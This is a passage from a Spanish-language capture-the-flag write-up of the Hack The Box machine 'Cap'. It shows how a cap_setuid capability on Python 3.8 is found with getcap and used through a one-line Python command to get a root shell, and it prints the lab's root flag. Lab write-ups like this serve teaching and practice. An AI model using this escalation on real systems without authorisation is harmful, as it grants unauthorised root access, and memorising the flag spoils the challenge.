 ![Capabilities descubiertas por el script LinPEAS](/assets/img/HTB/Cap/capabilitieslog2.png)

Por tanto, trato de verificar si esas capabilities que aparecen en el log corresponden a las de la máquina víctima. Compruebo que, efectivamente, las capabilities del log son similares a las que obtengo mediante getcap, por lo que me aprovecho de la capabilitie "cap\_setuid" de Python 3.8 para convertirme en el usuario root y visualizar la flag final.

```
nathan@cap:~$ getcap -r / 2>/dev/null

/usr/bin/python3.8 = cap_setuid, cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_raw+ep

nathan@cap:~$ python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'

root@cap:~# cat /root/root.txt

7df8eeedd7150c8659d5ea3850680854
```
